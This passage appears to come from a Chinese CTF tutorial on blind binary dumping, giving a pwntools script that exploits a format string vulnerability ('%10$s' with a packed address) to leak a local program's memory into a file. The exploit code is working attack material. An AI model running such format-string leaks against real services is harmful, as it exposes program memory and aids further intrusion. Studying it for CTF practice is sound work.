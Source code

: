 ```python
```

那么开始快乐的dump程序

### dump代码编写

如果以文件尾作为dump结束的话,在挂载程序的时候可能出现无限泄露,可以考虑加上范围限制,这个要根据具体的情况考虑,这里暂时就无限泄露,ctrl+C断开

dump代码编写,其实有点头疼,因为其实对于数据处理来容易出现失误(输出的数据的尾巴,需要处理掉),网上有些博客上提供的dump脚本,有些都是错的...这里整理各位大佬的脚本,最后写出了一个比较合理的脚本

dump需要注意前面输出的内容,9个字节的Repeater:

```python
#! /usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *

context.log_level = 'debug'#critical/debug
p = process("./stilltest")
f = open("stilltestbin", "ab+")
#f = open("64weiba", "ab+")

begin = 0x400000
offset = 0
i=0
p.recvuntil('Please tell me:')
while True:#i<13:#True:#
	addr = begin + offset	
	p.sendline("%10$saabbccddeef" + p64(addr))
	try:
		#info = p.recv(4)
		info = p.recvuntil('aabbccddeef',drop=True)[9:]
		remain = p.recvrepeat(0.2)#recv the tail to dump in cicle
		print info.encode("hex")
		print len(info)
	except EOFError:
		print "offset is " + str(offset)
		break
	if len(info)==0:
		print "info is null"
		offset += 1
		f.write('\x00')
	else:
		info += "\x00"
		offset += len(info)
		f.write(info)
		f.flush()
	#i = i + 1
	print "offset is " + str(offset)
f.close()
p.close()
#'''
```
